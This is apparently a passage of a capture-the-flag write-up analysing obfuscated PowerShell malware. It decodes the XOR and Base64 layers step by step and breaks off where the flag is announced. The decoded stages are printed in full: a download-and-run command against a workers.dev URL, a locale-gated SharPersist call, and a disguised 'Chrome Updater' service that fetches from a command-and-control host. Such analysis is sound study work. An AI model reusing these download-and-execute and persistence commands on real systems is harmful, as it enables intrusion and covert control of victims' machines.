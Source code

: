 Decoding the last XOR we get:
```
-c iwr https://cool-surf-87fc.oli-19f.workers.dev/|iex
```

By decoding the very last Base64 payload we get:
```powershell
$inputLocale = Get-WinUserLanguageList | Select-Object -First 1
$a = @(58, 99, 55, 100, 114, 101, 97, 126, 116, 114, 55, 58, 116, 55, 53, 84, 45, 75, 64, 126, 121, 115, 120, 96, 100, 75, 68, 110, 100, 99, 114, 122, 36, 37, 75, 116, 122, 115, 57, 114, 111, 114, 53, 55, 58, 118, 55, 53, 56, 116, 55, 103, 120, 96, 114, 101, 100, 127, 114, 123, 123, 55, 58, 116, 55, 126, 96, 101, 55, 127, 99, 99, 103, 100, 45, 56, 56, 116, 37, 100, 114, 101, 97, 114, 101, 57, 127, 124, 121, 56, 69, 82, 69, 83, 114, 37, 70, 96, 115, 37, 34, 113, 115, 80, 112, 109, 79, 36, 94, 39, 78, 122, 94, 111, 115, 81, 46, 120, 90, 80, 96, 109, 79, 109, 81, 39, 79, 109, 81, 109, 79, 36, 94, 39, 115, 80, 112, 109, 116, 123, 46, 125, 115, 79, 94, 111, 117, 36, 65, 109, 113, 70, 42, 42, 53, 55, 58, 121, 55, 53, 84, 127, 101, 120, 122, 114, 55, 66, 103, 115, 118, 99, 114, 101, 53, 55, 58, 122, 55, 118, 115, 115)
function d($c, $e) {
    $r = ""
    for ($i = 0; $i -lt $c.Length; $i++) {
        $r += [char]($c[$i] -bxor $e)
    }
    return $r
}
if ($inputLocale.InputMethodTips -match "0409:00000419" -or $inputLocale.InputMethodTips -match "00000419") {
	$b = 23
    Invoke-SharPersist (d $a $b)
}
```

We can then modify it to the following to easily see the output:
```powershell
$a = @(58, 99, 55, 100, 114, 101, 97, 126, 116, 114, 55, 58, 116, 55, 53, 84, 45, 75, 64, 126, 121, 115, 120, 96, 100, 75, 68, 110, 100, 99, 114, 122, 36, 37, 75, 116, 122, 115, 57, 114, 111, 114, 53, 55, 58, 118, 55, 53, 56, 116, 55, 103, 120, 96, 114, 101, 100, 127, 114, 123, 123, 55, 58, 116, 55, 126, 96, 101, 55, 127, 99, 99, 103, 100, 45, 56, 56, 116, 37, 100, 114, 101, 97, 114, 101, 57, 127, 124, 121, 56, 69, 82, 69, 83, 114, 37, 70, 96, 115, 37, 34, 113, 115, 80, 112, 109, 79, 36, 94, 39, 78, 122, 94, 111, 115, 81, 46, 120, 90, 80, 96, 109, 79, 109, 81, 39, 79, 109, 81, 109, 79, 36, 94, 39, 115, 80, 112, 109, 116, 123, 46, 125, 115, 79, 94, 111, 117, 36, 65, 109, 113, 70, 42, 42, 53, 55, 58, 121, 55, 53, 84, 127, 101, 120, 122, 114, 55, 66, 103, 115, 118, 99, 114, 101, 53, 55, 58, 122, 55, 118, 115, 115)
function d($c, $e) {
    $r = ""
    for ($i = 0; $i -lt $c.Length; $i++) {
        $r += [char]($c[$i] -bxor $e)
    }
    return $r
}
$b = 23
Write-Output (d $a $b)
```

And we get:
```powershell
-t service -c "C:\Windows\System32\cmd.exe" -a "/c powershell -c iwr https://c2server.hkn/RERDe2Qwd25fdGgzX3I0YmIxdF9oMGwzXzF0XzFzX3I0dGgzcl9jdXIxb3VzfQ==" -n "Chrome Updater" -m add
```
And we get our flag in base64:
